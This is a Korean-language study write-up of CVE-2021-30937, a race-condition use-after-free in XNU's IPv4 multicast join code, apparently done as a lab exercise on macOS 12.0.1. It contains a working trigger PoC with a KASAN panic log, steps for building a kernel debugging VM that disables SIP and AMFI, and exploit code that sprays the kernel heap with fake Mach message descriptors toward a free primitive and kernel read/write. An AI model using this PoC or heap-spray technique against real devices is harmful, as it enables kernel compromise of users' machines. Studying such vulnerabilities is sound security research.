# [실습] CVE-2021-30937(multicast_bytecopy) 이해하기 (macOS 12.0.1 / iOS 15) v3

# 버그 알아보기

`bsd/netinet/in_mcast.c`파일의 `inp_join_group` 함수에서 레이스 컨디션으로 heap use-after-free가 발생할 수 있는 취약점이다.

해당 취약점은 특정 조건에서 발생하는데, 패치되지 않은 [xnu-8019.41.5](https://github.com/apple-oss-distributions/xnu/blob/xnu-8019.41.5) 소스코드를 참고하면서 살펴보겠다.

`inp_join_group` 에서 새로운 membership 엔트리를 생성할 때, 해당 함수는 **[4]번 항목**인 `socket_unlock(inp->inp_socket, 0);` 에 의해 `socket`과 `ip_moptions` lock을 해제한다.


이러한 잠금 패턴은 다음과 같은 문제가 발생할 수 있다.

1. 잠금을 해제하기 전에 함수는 `imo_mfilters` 버퍼 내부의 주소를 로컬 변수 `imf`**[3]**에 할당한다. 
    
    
    

1. 잠금이 해제되면**[4]**, 동시 실행되는 다른 `inp_join_group` 호출이 `imo_membership`과 `imo_mfilters`를 재할당할 수 있어 `imf` 포인터가 유효하지 않을 수 있다. 
    
    
    

1. 그런 다음, 그 댕글링 포인터는 `in_joingroup`[5]에서 접근되며,
    
    
    

1. 잠금을 다시 획득한 후에는 `imf_commit`[7]에서 접근된다. 
마지막에는 참조된 객체에 쓰기를 수행하므로 이 버그를 악용해 힙을 손상시킬 수 있다.


취약점이 발생하는 코드는 아래와 같다.
주석에는 각 설명에 [n] 형식으로, 필요한 번호를 매겨두었다.

```cpp
/*
 * Join an IPv4 multicast group, possibly with a source.
 *
 * NB: sopt->sopt_val might point to the kernel address space. This means that
 * we were called by the IPv6 stack due to the presence of an IPv6 v4 mapped
 * address. In this scenario, sopt_p points to kernproc and sooptcopyin() will
 * just issue an in-kernel memcpy.
 */
int
inp_join_group(struct inpcb *inp, struct sockopt *sopt)
{

	//...

	/*
	 * Begin state merge transaction at socket layer.
	 */

	if (is_new) {
		if (imo->imo_num_memberships == imo->imo_max_memberships) {
			error = imo_grow(imo, 0);	// [1]
			if (error) {
				goto out_imo_locked;
			}
		}
		/*
		 * Allocate the new slot upfront so we can deal with
		 * grafting the new source filter in same code path
		 * as for join-source on existing membership.
		 */
		idx = imo->imo_num_memberships; // [2]
		imo->imo_membership[idx] = NULL;
		imo->imo_num_memberships++;
		VERIFY(imo->imo_mfilters != NULL);
		imf = &imo->imo_mfilters[idx];  // [3]
		VERIFY(RB_EMPTY(&imf->imf_sources));
	}

    // ...

	/*
	 * Begin state merge transaction at IGMP layer.
	 */
	if (is_new) {
		/*
		 * Unlock socket as we may end up calling ifnet_ioctl() to join (or leave)
		 * the multicast group and we run the risk of a lock ordering issue
		 * if the ifnet thread calls into the socket layer to acquire the pcb list
		 * lock while the input thread delivers multicast packets
		 */
		IMO_ADDREF_LOCKED(imo);
		IMO_UNLOCK(imo);    // [4]
		socket_unlock(inp->inp_socket, 0);  // [4]

		VERIFY(inm == NULL);
		error = in_joingroup(ifp, &gsa->sin_addr, imf, &inm);   // [5]

		socket_lock(inp->inp_socket, 0);
		IMO_REMREF(imo);
		IMO_LOCK(imo);

		VERIFY(inm != NULL || error != 0);
		if (error) {
			goto out_imo_free;
		}
		imo->imo_membership[idx] = inm; /* from in_joingroup() */   // [6]
	} else {
        // ...
	}

out_imf_rollback:
	if (error) {
		imf_rollback(imf);
		if (is_new) {
			imf_purge(imf);
		} else {
			imf_reap(imf);
		}
	} else {
		imf_commit(imf);    // [7]
	}
    // ...
}

/*
 * Leave an IPv4 multicast group on an inpcb, possibly with a source.
 *
 * NB: sopt->sopt_val might point to the kernel address space. Refer to the
 * block comment on top of inp_join_group() for more information.
 */
int
inp_leave_group(struct inpcb *inp, struct sockopt *sopt)
{
	// ...

	IMO_LOCK(imo);
	idx = imo_match_group(imo, ifp, gsa);   // [8]
	if (idx == (size_t)-1) {
		error = EADDRNOTAVAIL;
		goto out_locked;
	}
	inm = imo->imo_membership[idx];
	imf = &imo->imo_mfilters[idx];

    // ...

	if (is_final) {
		/* Remove the gap in the membership array. */
		VERIFY(inm == imo->imo_membership[idx]);
		imo->imo_membership[idx] = NULL;

		/*
		 * See inp_join_group() for why we need to unlock
		 */
		IMO_ADDREF_LOCKED(imo);
		IMO_UNLOCK(imo);    // [9]
		socket_unlock(inp->inp_socket, 0);

		INM_REMREF(inm);

		socket_lock(inp->inp_socket, 0);
		IMO_REMREF(imo);
		IMO_LOCK(imo);

		for (++idx; idx < imo->imo_num_memberships; ++idx) {    // [10]
			imo->imo_membership[idx - 1] = imo->imo_membership[idx];
			imo->imo_mfilters[idx - 1] = imo->imo_mfilters[idx];
		}
		imo->imo_num_memberships--;
	}
    // ...
}
```

# 트리거 방법

VMware 환경에서 구동중인 인텔맥인 macOS 12.0.1 Moneterey에서 POC 코드를 실행시켜보았다.

버그가 트리거되는지 알아보기 위헤서는 KASAN이 적용된 커널이 필요하다.

poc 구현방법

1. main 쓰레드와 thread_func 쓰레드, 총 2개의 쓰레드가 동시에 같은 소켓 파일 디스크립터인 fd에 setsockopt 함수로 `IP_ADD_MEMBERSHIP` 인자와 함께 호출하려고 한다.
2. 그 전에, 레이싱 중인 스레드들 중 하나가 `imo_grow`**[1]**를 호출시켜야 재구현이 가능하다. 이를 위해   `imo_mfilters`를 가득 채워야하는 조건이 있다. 따라서 `for (int j = 0; j < IP_MIN_MEMBERSHIPS - 1; ++j) { …` 코드와 같이 가득채우고 있는 것처럼 보인다.
3. `pthread_create` 함수로 쓰레드 생성 및 동기화를 100000번 만큼 계속 진행한다.
두 스레드의 `setsockopt` 호출이 커널 내에서 거의 정확히 동시에 실행되는 순간을 만들어내기 위해 레이스컨디션을 발생시킨다.

- poc.m

```cpp
#include <arpa/inet.h>  
#include <pthread.h>  
#include <unistd.h>  
  
volatile int lock_a;  
volatile int lock_b;  
  
int fd;  
struct sockaddr_in saddr;  
  
struct ip_mreq filler_group;  
struct ip_mreq group_a;  
struct ip_mreq group_b;  
  
void* thread_func(void* arg) {  
  lock_a = 1;  
  while (lock_b == 0) {}  
  
  setsockopt(fd, IPPROTO_IP, IP_ADD_MEMBERSHIP, &group_a, sizeof(group_a));  
  
  return NULL;  
}  
  
int main() {  
  int status;  
  pthread_t th;  
  
  saddr.sin_family = AF_INET;  
  
  group_a.imr_multiaddr.s_addr = inet_addr("224.0.0.1");  
  group_b.imr_multiaddr.s_addr = inet_addr("224.0.0.2");  
  
  for (int i = 0; i < 100000; ++i) {  
    fd = socket(AF_INET, SOCK_DGRAM, 0);  
  
    status = bind(fd, (struct sockaddr *) &saddr, sizeof(saddr));  
  
    for (int j = 0; j < IP_MIN_MEMBERSHIPS - 1; ++j) {  
      filler_group.imr_multiaddr.s_addr = htonl(ntohl(inet_addr("224.0.0.3")) + j);  
      status = setsockopt(fd, IPPROTO_IP, IP_ADD_MEMBERSHIP, &filler_group, sizeof(filler_group));  
    }  
  
    pthread_create(&th, NULL, thread_func, NULL);  
  
    while (lock_a == 0) {}  
    lock_b = 1;  
  
    status = setsockopt(fd, IPPROTO_IP, IP_ADD_MEMBERSHIP, &group_b, sizeof(group_b));  
  
    pthread_join(th, NULL);  
  
    close(fd);  
  }  
}  
```

그 결과, 아래와 같이 크래시가 발생한다.

이미 해제된(HEAP_FREED) 힙 메모리를 8바이트 읽으려는 과정이 포착되며,
`inm_merge`에서 imf 포인터가 해제된 메모리 영역임을 나타낸다.


```nasm
timestamp:2025-09-27 14:32:14.00 +0900,bug_type:210,os_version:macOS 12.0.1 (21A559)
incident_id:36C464C0-8EFC-4E8C-907B-904068C37459
macOSProcessedStackshotData:bm8gb24gZGlzayBwYW5pYyBzdGFja3Nob3QgZm91bmQgaW4gY29yZWZpbGU=
macOSPanicString:panic(cpu 0 caller 0xffffff8001ce3823): KASan: invalid 8-byte load from 0xffffffa00b4232e0 [HEAP_FREED]
 Shadow             0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f
 fffff7f401684600: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684610: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684620: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684630: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684640: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684650: fd fd fd fd fd fd fd fd fd fd fd fd[fd]fd fd fd 
 fffff7f401684660: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684670: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684680: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f401684690: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 fffff7f4016846a0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd 
 ;

 @kasan-report.c:114
Panicked task 0xffffff88ecbd3298: 1 threads: pid 466: poc
Backtrace (CPU 0), panicked thread: 0xffffff88cb5c6340, Frame : Return Address
0xffffffb050e8e650 : 0xffffff80004384b4 // handle_debugger_trap+0x374
0xffffffb050e8e6a0 : 0xffffff8000843564 // kdp_i386_trap+0x154
0xffffffb050e8e6e0 : 0xffffff800082ce3c // kernel_trap+0x9fc
0xffffffb050e8e770 : 0xffffff800084bba0 // trap_from_kernel+0x26
0xffffffb050e8e790 : 0xffffff8000437d90 // DebuggerTrapWithState+0xd0 
0xffffffb050e8e8c0 : 0xffffff8000438b60 // panic_trap_to_debugger+0x2f0
0xffffffb050e8e930 : 0xffffff8001cc378a // panic+0x54
0xffffffb050e8e9a0 : 0xffffff8001ce3823 // kasan_report_internal_cold_1+0x23
0xffffffb050e8e9b0 : 0xffffff8001cba497 // kasan_report_internal+0x277
0xffffffb050e8ea30 : 0xffffff8001cb9f6d // kasan_crash_report+0x2d
0xffffffb050e8ea60 : 0xffffff8001cba6a5 // __asan_report_load8+0x15
0xffffffb050e8ea70 : 0xffffff800105c96f // inm_merge+0x1abf
0xffffffb050e8ebf0 : 0xffffff800105db55 // in_joingroup+0xcc5
0xffffffb050e8ed70 : 0xffffff800106145d // inp_join_group+0x163d
0xffffffb050e8f0f0 : 0xffffff8001064e40 // inp_setmoptions+0x2a0
0xffffffb050e8f770 : 0xffffff80010cdc71 // ip_ctloutput+0x3f1
0xffffffb050e8f8b0 : 0xffffff800117bfc0 // udp_ctloutput+0x260
0xffffffb050e8f9f0 : 0xffffff80015b45c9 // sosetoptlock+0x629
0xffffffb050e8fd70 : 0xffffff80015e2789 // setsockopt+0x319
0xffffffb050e8fed0 : 0xffffff80018be709 // unix_syscall64+0x3f9
0xffffffb050e8ffa0 : 0xffffff800084c366 // _hndl_unix_scall64+0x16

Process name corresponding to current thread (0xffffff88cb5c6340): poc
Boot args: kdp_match_name=en0 wdt=-1 -v kcsuffix=kasan wlan.skywalk.enable=0 dk=0 tlbto_us=0 vti=9 slide=0

Mac OS version:
21A559

Kernel version:
Darwin Kernel Version 21.1.0: Wed Oct 13 17:25:20 PDT 2021; root:xnu_kasan-8019.41.5~1\/KASAN_X86_64
Kernel UUID: 2DF7E4D6-1231-35FC-ABB9-0D3858C30DD3
KernelCache slide: 0x0000000000000000
KernelCache base:  0xffffff8000200000
Kernel slide:      0x0000000000010000
Kernel text base:  0xffffff8000210000
__HIB  text base: 0xffffff8000100000
System model name: VMware20,1 (NT951XGK-K04\/C)
System shutdown begun: NO
Panic diags file available: YES (0x0)
Hibernation exit count: 0

System uptime in nanoseconds: 193563530907
Last Sleep:           absolute           base_tsc          base_nano
  Uptime  : 0x0000002d114e792c
  Sleep   : 0x0000000000000000 0x0000000000000000 0x0000000000000000
  Wake    : 0x0000000000000000 0x00000002acf3803a 0x0000000000000000
Zone info:
Foreign   : 0xffffff8006b13000 - 0xffffff8006b23000
Native    : 0xffffff800c54a000 - 0xffffffa00c54a000
Readonly  : 0 - 0
Metadata  : 0xffffffeee4e65000 - 0xffffffef04ec0000
Bitmaps   : 0xffffffef04ec0000 - 0xffffffef066c0000
last started kext at 1622081635: >usb.!UHub   1.2 (addr 0xffffff8004e07000, size 172032)
loaded kexts:
|SCSITaskUserClient   452.30.4
@filesystems.apfs   1933.41.2
>!AAHCIPort   351
>!AVmxnet3Ethernet   1.0.10
>!AFileSystemDriver   3.0.1
@filesystems.tmpfs   1
@filesystems.lifs   1
@filesystems.hfs.kext   582.40.4
@BootCache   40
@!AFSCompression.!AFSCompressionTypeZlib   1.0.0
@!AFSCompression.!AFSCompressionTypeDataless   1.0.0d1
@private.KextAudit   1.0
>!AHPET   1.8
>!AACPIButtons   6.1
>!ARTC   2.0.1
>!ASMBIOS   2.1
>!AAPIC   1.7
@!ASystemPolicy   2.0.0
@nke.applicationfirewall   402
|IOKitRegistryCompatibility   1
|EndpointSecurity   1
@Dont_Steal_Mac_OS_X   7.0.0
@kec.!AEncryptedArchive   1
>usb.!UHub   1.2
>usb.IOUSBHostHIDDevice   1.2
>usb.cdc   5.0.0
>usb.networking   5.0.0
>usb.!UHostCompositeDevice   1.2
|IOSCSIMultimediaCommandsDevice   452.30.4
|IOBD!S!F   1.8
|IODVD!S!F   1.8
|IOCD!S!F   1.8
>!AXsanScheme   3
|IOAHCISerialATAPI   268
|IOAHCIBlock!S   333
>usb.!UXHCIPCI   1.2
>usb.!UXHCI   1.2
>usb.!UEHCIPCI   1.2
>usb.!UUHCIPCI   1.2
>usb.!UUHCI   1.2
>usb.!UEHCI   1.2
|IOAHCI!F   295
>!ABSDKextStarter   3
|IOSurface   302.9
@filesystems.hfs.encodings.kext   1
>usb.!UHostPacketFilter   1.0
|IOUSB!F   900.4.2
|IOHID!F   2.0.0
>!AEFINVRAM   2.1
>!AEFIRuntime   2.1
|IOTimeSync!F   1000.11
|IONetworking!F   3.4
>DiskImages   493.0.0
|IO!B!F   9.0.0
|IOReport!F   47
$quarantine   4
$sandbox   300.0
@kext.!AMatch   1.0.0d1
|CoreAnalytics!F   1
>!ASSE   1.0
>!AKeyStore   2
>!UTDM   532.40.7
|IOUSBMass!SDriver   209.40.6
|IOSCSIBlockCommandsDevice   452.30.4
|IO!S!F   2.1
|IOSCSIArchitectureModel!F   452.30.4
>!AMobileFileIntegrity   1.0.5
$!AImage4   4.1.0
@kext.CoreTrust   1
>!AFDEKeyStore   28.30
>!AEffaceable!S   1.0
>!ACredentialManager   1.0
>KernelRelayHost   1
|IOUSBHost!F   1.2
>!UHostMergeProperties   1.2
>usb.!UCommon   1.0
>!ABusPower!C   1.0
>!ASEPManager   1.0.1
>IOSlaveProcessor   1
>!AACPIPlatform   6.1
>!ASMC   3.1.9
|IOPCI!F   2.9
|IOACPI!F   1.4
>watchdog   1
@kec.pthread   1
@kec.Libm   1
@kec.corecrypto   12.0

```

# 실리콘 맥에서 VMApple을 통한 커널 디버깅환경 구축방법

[https://github.com/JJTech0130/super-tart](https://github.com/JJTech0130/super-tart)

```c
- GuestOS VM 생성
1. SIP 비활성화
2. nvram 부팅 환경변수 중 boot-args에 amfi_get_out_of_my_way=1 설정
3. git clone <super-tart 프로젝트 링크>
4. cd super-tart
5. ./scripts/run-unsigned.sh
6. .build/debug/tart create
7. .build/debug/tart run <ID>

- Host에서 디버거 연결
(lldb) gdb-remote localhost:8000
(lldb) file <KDK 커널파일>
```


# 익스플로잇 (macOS 12.0.1 VMAPPLE)

## **⚠️ 참고사항**

VMApple에서 multicast_byte 익스플로잇이 작동하게끔 만들려면 커널 패치가 필요합니다.
iOS 15의 경우, KHEAP_DEFAULT와 KHEAP_KEXT 타입에 대한 커널 할당 서브맵을 공유하고 있으나,
VMApple의 경우 어떤 이유에선지 격리되어 있습니다.

패치해야할 함수는 IOMallocZero_external, IOMalloc_external 함수이며,
KHEAP_KEXT 대신에 KHEAP_DEFAULT 타입으로 할당되게끔 패치해주셔야 합니다.



또, 커널 힙 주소가 하드코딩되어있어 프로파일링이 필요할 수도 있습니다.

[KextRW](https://github.com/alfiecg24/KextRW)를 VMApple 환경에 로드시키고, 
ENABLE_HELPER.h 파일에 있는 ENABLE_HELPER, ENABLE_PROFILLING를 활성화해주시면 프로파일링할 수 있습니다.

```c
seo@seos-Mac ~ % ./exp
[!] Try setting macro KHEAP_DATA_MAPPABLE_LOC to 0xfffffe228cb24000
[!] Try setting macro KHEAP_DEFAULT_MAPPABLE_LOC to 0xfffffe228175c000
[!] After setting macro, rerun with disable ENABLE_HELPER

^C
```

VMApple에서의 커널 패치 방법과 3rd-party kext 로드에 대한 자세한 방법은 아래 링크를 참고해주세요.
[https://gist.github.com/steven-michaud/fda019a4ae2df3a9295409053a53a65c](https://gist.github.com/steven-michaud/fda019a4ae2df3a9295409053a53a65c)

## 설명

`exploit_get_krw_and_kernel_base` 함수를 보다시피,
익스플로잇하는 주요 함수는 4가지로 구성된다.

1. `exploitation_init`
2. `get_arb_free_holder`
3. `exploitation_get_krw_with_arb_free`
4. `exploitation_cleanup`

## 1. `exploitation_init`

제일 처음에 `IOGPU_get_command_queue_extra_refills_needed` 함수가 호출되는데,
이는 나중에 IOGPU를 통해 익스플로잇할때에 KHEAP_DEFAULT 타입으로 스프레이된 포트를 해제할 때 필요하다. 지금은 중요하지 않으니 넘어가자.

```c
int exploitation_init(void)
{
    // different by device, retrieve it first and fail if unsuccessful
    extra_frees_for_device = IOGPU_get_command_queue_extra_refills_needed();
    if (extra_frees_for_device == -1)
    {
        printf("Exiting early, provide correct number 1-5 in the code for this device to proceed\n");
        return 1;
    }
    ...
    
    
int IOGPU_get_command_queue_extra_refills_needed(void)
{
    struct utsname u;
    uname(&u);
    
    // iPhone 7
    // iPhone 11
    // iPhone 12
    // iPhone 13
    if (
       strstr(u.machine, "iPhone9,")
    || strstr(u.machine, "iPhone12,")
    || strstr(u.machine, "iPhone13,")
    || strstr(u.machine, "iPhone14,")
    )
    {
        return 1;
    }
    // iPhone 8, X
    // iPhone XS, XR
    else if (
       strstr(u.machine, "iPhone10,")
    || strstr(u.machine, "iPhone11,")
    )
    {
        return 3;
    }
    
    printf("IOGPU_get_command_queue_extra_refills_needed(): Unknown device %s! May panic in generic part until correct number 1-5 is provided for this device!\n", u.machine);
    
    return -1;
}
```

커널 메시지를 구성할 포트인 `kheap_data_ports`,
OOL 포트를 위한 `contained_ports`, `ool_ports` ,
스프레이하면서 쓰여질 데이터 영역인 `kheap_data_spray_buf`를 각각 생성한다.

우리는 스프레이를 `PORTS_COUNT`인 0x2A00번만큼 수행할 것이다.

```c
    ...
    kheap_data_ports = malloc(PORTS_COUNT * sizeof(mach_port_t));
    kheap_default_ports = malloc(PORTS_COUNT * sizeof(mach_port_t));
    mach_port_t *contained_ports = malloc(PORTS_COUNT * sizeof(mach_port_t));
    mach_port_t *ool_ports = malloc(0x4000);
    uint8_t *kheap_data_spray_buf = malloc(0x4000);
    memset(kheap_data_ports, 0, PORTS_COUNT * sizeof(mach_port_t));
    memset(kheap_default_ports, 0, PORTS_COUNT * sizeof(mach_port_t));
    memset(contained_ports, 0, PORTS_COUNT * sizeof(mach_port_t));
    memset(ool_ports, 0, 0x4000);
    memset(kheap_data_spray_buf, 0, 0x4000);
    ...
    
```

스프레이하면서 쓰여질 데이터 영역인 `kheap_data_spray_buf`에는 free primitive를 하기 위해 fake descriptor가 들어간다.

이는 나중에 msgh_bits에 `MACH_MSGH_BITS_COMPLEX`(0x80000000)가 포함되어 있다면, 
메시지 객체가 파괴될 때 메시지 버퍼 시작 부분에 있는 ‘descriptors’가 커널 주소로 취급되어 해제되게 만들기 위해서이다.

```c
    ...
    // fake descriptor for free primitive
    *(uint32_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t)) = 1;
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t)) = KHEAP_DEFAULT_MAPPABLE_LOC; // free primitive target
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint64_t)) = 0x000007F802110000; // disposition, size, etc
    // align a pointer here so that when the kmsg trailer size is corrupted, this pointer
    // will after that be followed and a second bytecopy performed where it points (kmsg message bits)
    *(uint64_t *)(kheap_data_spray_buf + 0x3F64) = BYTECOPY_SECOND_TARGET;
```

본격적으로 힙 스프레이가 수행된다.

`port_new` 를 통해 새로운 Mach 포트를 생성한다.
생성된 포트를 이용해 `spray_default_kalloc_ool_ports` ,  `spray_data_kalloc_kmsg_single`를 호출하여 커널 페이지 크기인 0x4000만큼 커널 메모리를 할당하게될 것이다.

여기서 `spray_default_kalloc_ool_ports`는 KHEAP_DEFAULT 타입으로 , `spray_data_kalloc_kmsg_single`는 KHEAP_DATA_BUFFERS 타입으로 스프레이된다.

해당 `port_new`, `spray_default_kalloc_ool_ports`, `spray_data_kalloc_kmsg_single` 함수들이 어떻게 수행되는지 살펴보면서 XNU 소스코드까지 한번 살펴보겠다.

```c
#define KMSG_SIZE 0x3F80 // the low 0x80 byte of this size will be copied to corrupt the message bits (setting 0x80000000, MACH_MSGH_BITS_COMPLEX)
    ...
    // spray large sprays to map  KHEAP_DATA_MAPPABLE_LOC and KHEAP_DEFAULT_MAPPABLE_LOC
    for (int i = 0; i < PORTS_COUNT; ++i)
    {
        // KHEAP_DEFAULT
        *ool_ports = port_new();
        contained_ports[i] = *ool_ports;
        mach_port_t *pp = spray_default_kalloc_ool_ports(0x4000, 1, ool_ports);
        kheap_default_ports[i] = pp[0];
        free(pp);
        
        // KHEAP_DATA_BUFFERS
        kheap_data_ports[i] = spray_data_kalloc_kmsg_single(kheap_data_spray_buf, KMSG_SIZE);
    }
```

## 1-1. `port_new()`

먼저 `port_new` 함수를 살펴보자.

`MPO_INSERT_SEND_RIGHT` 플래그, 그리고 현재 태스크의 커널 포트에 대한 송신 권한 이름(send right name)을 의미하는 `mach_task_self()`와 함께 `mach_port_construct` 함수를 호출한다.

```c
mach_port_t port_new(void)
{
    mach_port_options_t options = { .flags = MPO_INSERT_SEND_RIGHT };
    mach_port_t port;
    
    mach_port_construct(mach_task_self(), &options, 0, &port);
    
    return port;
}

typedef struct mach_port_options {
	uint32_t                flags;
	mach_port_limits_t      mpl;            /* Message queue limit for port */
	union {
		uint64_t                   reserved[2];           /* Reserved */
		mach_port_name_t           work_interval_port;    /* Work interval port */
		mach_service_port_info_t   service_port_info;     /* Service port (MPO_SERVICE_PORT) */
		mach_port_name_t           service_port_name;     /* Service port (MPO_CONNECTION_PORT) */
	};
}mach_port_options_t;
```

### `mach_port_construct`

`mach_port_construct` 함수를 살펴보면 ([osfmk/ipc/mach_port.c:2413](https://www.notion.so/CVE-2021-30937-multicast_bytecopy-iOS-14-x-27bd56448e5d804c91dfda549f62f6a5?pvs=21)),
내부적으로 `init_flags`에 `IP_INIT_MAKE_SEND_RIGHT`가 세트됨으로써 송신 권한(Send Right)이 부여된다. `IP_INIT_MAKE_SEND_RIGHT`가 세트된 `init_flags`값은 `ipc_port_alloc`를 호출할떄에 flags의 인자로 들어가면서 새로운 Mach 포트가 생성된다. 즉, 수신 권한(Receive Right)뿐만 아니라 송신 권한(Send Right)도 획득할 수 있게 새로운 Mach 포트를 생성했다고 보면 될 것이다.

```c
kern_return_t
mach_port_construct(
	ipc_space_t             space,
	mach_port_options_t     *options,
	uint64_t                context,
	mach_port_name_t        *name)
{
	kern_return_t           kr;
	ipc_port_t              port;
	ipc_port_init_flags_t   init_flags = IPC_PORT_INIT_MESSAGE_QUEUE;
	void *port_splabel = NULL;
	bool filter_msgs = FALSE;
	struct mach_service_port_info sp_info = {};
	size_t sp_name_length = 0;
	user_addr_t service_port_info = 0;

	//...
	if (options->flags & MPO_INSERT_SEND_RIGHT) {
		init_flags |= IPC_PORT_INIT_MAKE_SEND_RIGHT;
	}

	//...
	/* Allocate a new port in the IPC space */
	kr = ipc_port_alloc(space, init_flags, name, &port);
	if (kr != KERN_SUCCESS) {
		if (port_splabel != NULL) {
			ipc_service_port_label_dealloc(port_splabel,
			    (options->flags & MPO_SERVICE_PORT));
		}
		return kr;
	}

	/* Port locked and active */
	if (port_splabel != NULL) {
		port->ip_service_port = (bool)(options->flags & MPO_SERVICE_PORT);
		port->ip_splabel = port_splabel;
	}

	//...
		port->ip_context = context;
		if (options->flags & MPO_SERVICE_PORT) {
			ipc_service_port_label_set_attr(port_splabel, *name, 0);
		}
	//...

	/* Unlock port */
	ip_mq_unlock(port);

	//...
	return KERN_SUCCESS;

cleanup:
	/* Attempt to destroy port. If its already destroyed by some other thread, we're done */
	(void) mach_port_destruct(space, *name,
	    (options->flags & MPO_INSERT_SEND_RIGHT) ? -1 : 0, context);
	return kr;
}
```

